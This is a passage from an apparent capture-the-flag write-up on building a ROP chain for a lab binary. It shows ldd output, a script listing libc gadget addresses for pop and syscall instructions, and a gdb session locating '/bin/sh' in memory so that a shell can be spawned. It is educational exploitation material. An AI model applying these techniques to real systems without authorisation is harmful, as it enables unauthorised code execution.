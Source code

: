 ```
~/challenges/challenge17$ ldd ./challenge17
        linux-vdso.so.1 (0x00007ffe865bc000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007f8109d1e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f8109eeb000)
```

And find the gadgets in the referenced libc version in `/lib64/ld-linux-x86-64.so.2`
```
~/challenges/challenge17$ python3 print-gadgets.py /lib/x86_64-linux-gnu/libc.so.6 
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loading gadgets for '/lib/x86_64-linux-gnu/libc.so.6'

Useful gadgets:
Gadget(0x3ee88, ['pop rax', 'ret'], ['rax'], 0x10)
Gadget(0x26796, ['pop rdi', 'ret'], ['rdi'], 0x10)
Gadget(0x2890f, ['pop rsi', 'ret'], ['rsi'], 0x10)
Gadget(0xcb1cd, ['pop rdx', 'ret'], ['rdx'], 0x10)
~/challenges/challenge17$ python3 print-gadgets.py /lib/x86_64-linux-gnu/libc.so.6  | grep syscall
 152875: Gadget(0x2552b, ['syscall'], [], 0x0),
 258294: Gadget(0x3f0f6, ['syscall', 'pop rbp', 'ret'], ['rbp'], 0x10),
 360666: Gadget(0x580da, ['syscall', 'ret'], [], 0x8),
 545158: Gadget(0x85186, ['syscall', 'pop rbx', 'ret'], ['rbx'], 0x10),
gadget(address=152875, details=Gadget(0x2552b, ['syscall'], [], 0x0))
```

## Data

We need two other things: 
* the string `/bin/sh`
* a 64 bit 0 value 

Lets use pwntools to find the string `/bin/sh`:
```
~/challenges/challenge17$ gdb -q 
GEF for linux ready, type `gef' to start, `gef config' to configure
94 commands loaded for GDB 10.1.90.20210103-git using Python engine 3.9
[*] 2 commands could not be loaded, run `gef missing` to know why.
[+] Configuration from '/root/.gef.rc' restored
gef➤  attach 7924
...
gef➤  grep "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/x86_64-linux-gnu/libc-2.31.so'(0x7f7d39e81000-0x7f7d39ecb000), permission=r--
  0x7f7d39e9b152 - 0x7f7d39e9b159  →   "/bin/sh" 
[+] In (0x7f7d39ed2000-0x7f7d39ed8000), permission=rw-
  0x7f7d39ed7f70 - 0x7f7d39ed7f77  →   "/bin/sh" 

gef➤  x/1s 0x7f7d39e9b152
0x7f7d39e9b152: "/bin/sh"
```
